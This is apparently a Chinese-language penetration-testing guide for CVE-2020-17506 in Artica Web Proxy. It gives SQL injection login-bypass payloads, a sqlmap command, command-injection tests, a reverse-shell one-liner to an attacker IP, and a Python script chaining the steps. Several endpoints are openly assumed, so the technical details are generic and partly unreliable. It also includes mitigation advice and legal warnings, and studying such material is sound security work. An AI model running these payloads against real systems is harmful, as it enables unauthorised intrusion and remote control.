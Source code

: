 漏洞背景

CVE ID: CVE-2020-17506
影響產品: Artica Web Proxy 4.30.000000
漏洞類型: SQL 注入與身份驗證繞過
描述: 攻擊者可通過特製的 SQL 注入繞過身份驗證，直接獲得後台管理員權限。該漏洞結合了命令注入漏洞，可能允許未經身份驗證的遠程攻擊者執行任意命令。
CVSS 分數: 未明確提供，但由於其高風險性質（身份驗證繞過與命令注入），通常被認為是高危漏洞。
參考:

測試用例與驗證步驟
以下是驗證 CVE-2020-17506 漏洞的通用步驟。請確保在合法授權的測試環境中進行操作，並遵循道德規範。
1. 環境準備

目標系統: 運行 Artica Web Proxy 4.30.000000 的伺服器。
工具:

Burp Suite 或其他代理攔截工具（用於捕獲和修改 HTTP 請求）。
SQLmap（自動化 SQL 注入測試工具）。
瀏覽器或 cURL（用於發送 HTTP 請求）。
命令行工具（如 netcat，用於監聽可能的命令注入結果）。


網路訪問: 確保可以訪問目標 Artica Web Proxy 的管理介面（通常為 HTTP/HTTPS 上的 Web 面板）。

2. 漏洞驗證流程
步驟 1：確認目標版本

訪問 Artica Web Proxy 的管理介面，檢查版本是否為 4.30.000000（通常可在登錄頁面、關於頁面或伺服器響應頭中找到）。
命令範例（使用 cURL 檢查版本）：
bashcurl -I http://<target_ip>:<port>/admin
檢查響應頭或頁面內容，確認版本資訊。

步驟 2：測試 SQL 注入

目標: 確認管理介面是否存在 SQL 注入漏洞。
方法: 使用 Burp Suite 攔截登錄請求，修改登錄表單的參數（如 username 或 password 欄位），注入 SQL 語句。
測試語法（範例 SQL 注入 payload）：
sqlusername=admin' OR '1'='1' -- &password=anything

說明：此 payload 嘗試繞過身份驗證，通過將 username 設置為永遠為真的條件（'1'='1'），使系統接受無效憑證。


使用 Burp Suite 發送修改後的請求，檢查是否成功登錄後台。
自動化測試（使用 SQLmap）：
bashsqlmap -u "http://<target_ip>:<port>/login.php" --data="username=admin&password=anything" --level=3 --risk=3

參數說明：

-u: 目標 URL。
--data: POST 請求的數據。
--level=3: 提高測試深度，檢查更多注入點。
--risk=3: 允許高風險測試，可能觸發危險 payload。





步驟 3：驗證身份驗證繞過

如果 SQL 注入成功，檢查是否獲得管理員權限（例如，訪問後台控制面板）。
檢查後台是否允許執行命令（由於漏洞可能結合命令注入）。
命令注入測試（如果 SQL 注入成功）：

在後台尋找可輸入命令的區域（例如，系統設置或日誌查詢）。
嘗試注入簡單命令，例如：
bash; whoami

如果伺服器返回當前用戶身份（如 admin 或系統用戶），則確認命令注入漏洞存在。


使用 cURL 測試命令注入（假設後台某 API 接受命令）：
bashcurl -X POST http://<target_ip>:<port>/admin/api -d "command=whoami"

檢查響應是否包含命令執行結果。



步驟 4：驗證遠程代碼執行（RCE）

如果命令注入可行，嘗試執行更複雜的命令，例如建立反向 Shell。
範例（反向 Shell）：

在攻擊者機器上啟動監聽：
bashnc -lvnp 4444

在目標後台注入反向 Shell 命令（假設漏洞允許）：
bash; nc -e /bin/bash <attacker_ip> 4444

檢查攻擊者機器是否收到來自目標的 Shell 連接。


注意: 具體命令注入點需根據 Artica Web Proxy 的介面和 API 進行調整，可能需要檢查原始碼或文檔以找到可利用的輸入點。

3. 預期結果

SQL 注入成功: 繞過登錄，獲得管理員權限。
命令注入成功: 執行系統命令（如 whoami）或建立反向 Shell。
失敗情況: 如果目標已修補（例如，升級到更高版本或應用安全補丁），SQL 注入或命令注入將失敗，響應可能為 403（禁止）或無效登錄。

4. 測試用例範例
以下是一個簡單的 Python 腳本，模擬 SQL 注入和命令注入測試（需安裝 requests 模組）：
pythonimport requests

# 目標 URL 和參數
target_url = "http://<target_ip>:<port>/login.php"
data = {
    "username": "admin' OR '1'='1' -- ",
    "password": "anything"
}

# 發送 SQL 注入請求
response = requests.post(target_url, data=data)

# 檢查是否成功登錄
if "Welcome to Admin Panel" in response.text:
    print("SQL Injection successful! Admin access gained.")
    # 嘗試命令注入（假設後台有命令執行 API）
    cmd_url = "http://<target_ip>:<port>/admin/execute"
    cmd_data = {"command": "whoami"}
    cmd_response = requests.post(cmd_url, data=cmd_data)
    print("Command Injection Output:", cmd_response.text)
else:
    print("SQL Injection failed.")

說明: 替換 <target_ip> 和 <port> 為實際目標地址。腳本假設存在一個 /login.php 登錄端點和一個 /admin/execute 命令執行端點（實際端點需根據目標系統調整）。

5. 安全建議

修補漏洞: 升級 Artica Web Proxy 到最新版本，確保修補 CVE-2020-17506。
輸入驗證: 在後台實現嚴格的輸入過濾，防止 SQL 注入和命令注入。
限制訪問: 將管理介面限制為僅限內網訪問（例如，使用防火牆阻擋外部對 80/443 端口的訪問）。
監控日誌: 檢查異常登錄或命令執行嘗試，及時發現潛在攻擊。

注意事項

合法性: 未經授權的漏洞測試是非法的，可能導致法律後果。請確保獲得目標系統擁有者的明確許可。
風險: 測試可能導致系統不穩定或數據丟失，建議在隔離的測試環境中進行。
參考資料: 根據，可參考 Packet Storm 的報告（http://packetstormsecurity.com/files/159267/Artica-Proxy-4.30.000000-Authentication-Bypass-Command-Injection.html）獲取更多技術細節。